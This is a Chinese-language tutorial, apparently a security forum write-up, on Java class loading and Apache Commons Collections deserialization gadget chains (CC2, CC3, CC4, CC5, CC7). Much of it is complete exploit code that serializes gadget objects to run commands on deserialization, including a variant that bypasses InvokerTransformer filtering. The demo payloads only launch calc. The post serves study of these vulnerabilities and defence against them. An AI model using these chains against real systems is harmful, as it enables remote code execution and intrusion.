我们先来介绍一下什么是Java中的字节码：

狭义：在P牛的Java漫谈中提到Java字节码其实仅仅指的是Java虚拟机中执行使用的一类指令，通常被存储在.class文件当中，只要我们的代码能够在编译器中编译成class文件，就能够在JVM虚拟机中进行运行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235244-2427ab36-20cc-1.png)

广义：所有能够恢复成一个类并在JVM虚拟机里加载的字节序列，都在问的探讨范围之内

#### URLClassLoader任意类加载：

> Java的ClassLoader是用来加载字节码文件最基础的方法， ClassLoader 是什么呢？它就是一个“加载器”，告诉Java虚拟机如何加载这个类。Java默认的 ClassLoader 就是根据类名来加载类，这个类名是类完整路径，如 java.lang.Runtime 。

URLClassLoader 实际上是我们平时默认使用的 AppClassLoader 的父类，所以，我们解释 URLClassLoader 的工作过程实际上就是在解释默认的Java类加载器的工作流程。

**协议：file/http/jar**

*   URL未以斜杠 / 结尾，则认为是一个JAR文件，使用 JarLoader 来寻找类，即为在Jar包中寻找.class文件
*   URL以斜杠 / 结尾，且协议名是 file ，则使用 FileLoader 来寻找类，即为在本地文件系统中寻找.class文件
*   URL以斜杠 / 结尾，且协议名不是 file ，则使用最基础的 Loader 来寻找类

我们看上面的三种情况可以发现，当协议不是 file 协议的情况下，最常见的就是 http 协议会使用Loader来进行寻找类。 我们可以使用HTTP协议来测试一下，看Java是否能从远程HTTP服务器上加载.class文件：

```plain
package com.govuln;
import java.net.URL;
import java.net.URLClassLoader;
public class HelloClassLoader{
    public static void main( String[] args ) throws Exception{
        URL[] urls = {new URL("http://localhost:8000/")};
        URLClassLoader loader = URLClassLoader.newInstance(urls);
        Class c = loader.loadClass("Hello");
        c.newInstance();
    }
}
```

我们将Hello.class程序放到服务器下面，然后我们发现运行代码能够成功请求到我们的 /Hello.class 文件，并执行了文件里的字节码，输出了"Hello World"。 所以，作为攻击者如果我们能够控制目标Java ClassLoader的基础路径为一个http服务器，则可以利用远程加载的方式执行任意代码了。

#### defineClass直接加载字节码：

我们通过调试其实可以发现，无论是加载什么文件，Java在ClassLoader中都会调用这几个函数进行类的加载：

`(继承关系)ClassLoader ->SecureClassLoader->URLClassLoader->AppClassLoader`

`ClassLoader.loadClass(不进行初始化) - > ClassLoader.findClass(重写) - > ClassLoader.defineClass(字节码加载类)`

*   `loadClass`的作用是从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机制），在前面没有找到的情况下，执行`findClass`
*   `findClass`的作用是根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在 本地文件系统、jar包或远程http服务器上读取字节码，然后交给`defineClass`
*   `defineClass`的作用是处理前面传入的字节码，将其处理成真正的`Java`类

所以可见，真正核心的部分其实是 `defineClass`，他决定了如何将一段字节流转变成一个Java类，Java 默认的 `ClassLoader#defineClass` 是一个`native`方法，逻辑在`JVM`的`C`语言代码中。

因为`defineClass`是一个`protect`类，所以我们需要通过反射来进行获取，然后再通过`defineClass`对字节码直接进行加载：

```plain
package ClassLoaderTest;

import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class LoadClassTest {
    public static void main(String[] args) throws Exception {

        ClassLoader cl = ClassLoader.getSystemClassLoader();
        Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",String.class,byte[].class, int.class, int.class);
        defineClassMethod.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\temp\\classes\\Test.class"));
        Class c = (Class) defineClassMethod.invoke(cl,"Test",code,0,code.length);
        c.newInstance();
    }
}
```

### 调用链：

因为defineClass并不是一个public方法，我们不能通过其他类来直接调用`defineClass`来直接对字节码进行加载，所以这里我们需要找到一个对defineClass重写以后public属性的地方，然后对他进行调用实现类加载，再进行类的初始化执行恶意代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235257-2be5da14-20cc-1.png)

然后我们再跟进一下这个default方法看类中在哪进行了调用，然后找到了这defineTransletClasses的private类，然后我们再看一下哪里变成了public

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235301-2e374a00-20cc-1.png)

然后我们就在Templateslmpl中找到了三种方法，而其中的一种方法中就进行了一个newInstance()初始化操作，这样就可以让我们的类初始化然后执行恶意代码，不过这里依然是一个private方法，我们还需要找对应的public方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235306-31423bf6-20cc-1.png)

然后我们就找到了这个public类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235310-33a027be-20cc-1.png)

所以这里我们来梳理一下调用链：

```plain
Templateslmpl.newTransformer - > getTransletInstance - > defineClass - > newInstance()

又因为TemlpatesImpl调用了序列化接口，所以里面的属性值我们都能够进行控制，直接通过反射来进行赋值
TemplatesImpl templates = new TemplatesImpl();
templates.newTransformer();
```

### EXP问题：

#### 问题一：

对必要的值赋完以后的代码EXP是这样：但发生了空指针的报错：

```plain
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
    //避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

    templates.newTransformer();


    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

于是我们对报错的对应方法下断点进行调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235320-39895b96-20cc-1.png)

经过调试我们发现，之前我们对应赋值的变量都能够通过，这里出现了\_auxClasses空指针的现象，所以这里我们结合下面的if<0判断语句发现，这里修改\_auxClasses并不能解决问题：

这里判断当前类的父类的值是否为一个常量，而superClass对应的就是我们利用的demo类

```plain
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
else {
    _auxClasses.put(_class[i].getName(), _class[i]);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235420-5d89bc48-20cc-1.png)

所以我们要设置执行代码的父类是对应的ABSTRACT\_TRANSLET值，同时因为父类是一个抽象类，还要实现里面的方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235444-6bd7e9be-20cc-1.png)

### EXP(CC3Templateslmpl):

```plain
Demo.java
package EXP;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Demo extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (IOException e){
           e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后我们再利用CC1的链将前半段链子补全得到最后CC6的EXP：

```plain
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
//    避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

//    templates.newTransformer();
    Transformer[] Transformers = new Transformer[]{
            new ConstantTransformer(templates),
            new InvokerTransformer("newTransformer",null,null)
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
    HashMap<Object,Object> map = new HashMap<>();
    Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
    annotationInvocationhdlConstructor.setAccessible(true);
    InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
    Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
    Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

//    serialize(o);
    unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### EXP(CC3绕过过滤)：

我们可以发现如果被禁用了InvokerTransformer的话，CC哪条链都无法执行，这样的话我们就考虑能否不使用他来构造链子，于是就想找到一个不使用InvokerTransformer里面反射调用的方法，找到一个可以直接调用Templateslmpl的newTransformer的类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235505-77e9b3c2-20cc-1.png)

所以CC3链子的作者找到了这样的一个类`TrAXFliter`（不存在序列化接口），可以直接调用newTransformer的类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235512-7c848a1a-20cc-1.png)

通过chainedTransformer类中的transform方法，先传入TrAXFilter.class，然后在通过InstantiateTransformer（存在序列化接口）的transform方法，对上面类和类的构造方法进行调用并将`TemplatesImpl Templates = new TemplatesImpl();`传入，触发TrAXFliter构造方法中的Templates.newInstance()方法。

```plain
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235523-8305db28-20cc-1.png)

```plain
package EXP;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3InstantiateTransformer {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(Templates,new TransformerFactoryImpl());

//        templates.newTransformer();
//        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);


        serialize(o);
//        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

这就是现在所有的调用链流程图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235539-8c791026-20cc-1.png)

## CommonsCollections4：

在CC4的`commons-collections`版本当中，后续我们提到的利用类`TransformingComparator`中在CC3版本里并没有提供`serializeable`接口，而在CC4.0版本当中对接口进行了添加，所以我们就得到了CC4的反序列化利用链，因为还是在CC链当中，所以也是两种利用方式，命令执行和恶意类加载的代码执行，所以这里我们还是通过`transform`来寻找调用链，依然是两个要求：可以序列化，调用了transform方法，然后我们就找到了`TransformingComparator`类中的compare方法，并且compare方法还非常常见：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235548-91e7b634-20cc-1.png)

然后我们就需要找其他类中readObject方法中是否能够调用compare方法，于是我们找到了PriorityQueue类中的`heapify() - > siftDown - > siftDownUsingComparator`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235553-94f03d06-20cc-1.png)

### EXP问题:

在我们简单调用完上面的链子之后，并没能够弹出计算器，所以这里我们就要下断点调试一下，size默认值为0，进不了循环

```plain
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

需要将size值为2才可以，又因为add函数在序列化时也能够走通链子，所以我们也和前面构造exp一样，先破坏一个值，然后再add以后使用反射修改回来：

### EXP(CC4TransformingComparator):

```plain
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class CC4TransformingComparator {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(Templates,new TransformerFactoryImpl());
//        Templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2
        priorityQueue.add(1);
        priorityQueue.add(1);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,chainedTransformer);

//        serialize(priorityQueue);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections2:

不走`TrAXFilter.class`的路线，直接用`InvokerTransform`调用`newTransformer`，通过add来传入参数，不使用自定义数组`ConstantTransformer`了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235607-9d53d390-20cc-1.png)

```plain
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;


import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2并将Temlates传入
        priorityQueue.add(Templates);
        priorityQueue.add(Templates);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections5:

BadAttributeValueExpExceptionl类的readObject方法中有toString方法，然后toString方法能够调用getValue方法，然后调用TiedMapEntry中的getValue，后面就能够调用Lazymap里面的get方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235618-a3aea15c-20cc-1.png)

```plain
package EXP;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC5BadAttributeValueExpException {
    public static void main(String[] args) throws Exception{

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//赋值操作
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        //设置私有属性val
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);


//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections7：

入口点利用了HashTable通过readObject中调用`reconstitutionPut`,然后又调用了equals，然后找到了AbstractMapDecorator类中的equals方法中调用了get方法。

然后在equals中存在一个哈希碰撞，比较罕见，这里就不展开来研究了，可以参考fakesoul师傅写的文章：

[https://xz.aliyun.com/t/12207#toc-10](https://xz.aliyun.com/t/12207#toc-10)

```plain
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class cc7 {
    public static void main(String[] args) throws NoSuchFieldException,
            IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);
        Map innerMap1 = new HashMap();
        innerMap1.put("pP",1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo",1);
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1,1);
        hashtable.put(lazyMap2,2);
        lazyMap2.remove("pP");
        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,transforms);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashtable);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

最后给出所有调用链的一个简单的思维导图供大家总结：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235711-c30dbec0-20cc-1.png)
